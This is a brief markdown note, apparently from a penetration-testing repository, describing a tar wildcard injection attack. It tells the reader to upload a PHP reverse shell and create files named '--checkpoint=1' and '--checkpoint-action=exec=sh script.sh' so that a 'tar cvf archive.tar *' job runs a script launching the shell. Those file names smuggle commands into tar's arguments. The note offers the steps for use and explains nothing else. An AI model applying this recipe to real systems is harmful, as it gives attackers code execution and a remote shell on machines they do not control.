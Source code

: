 # Tar vulnerability 

We can exploit a tar wildcard (*) vulnerability : 
exemple: 
    tar cvf archive.tar * 
upload reverse php shell (shell.php)
+ file named  : 
    --checkpoint=1 
and 
    --checkpoint-action=exec=sh script.sh
+ script.sh => 
    php shell.php
and the job is done !
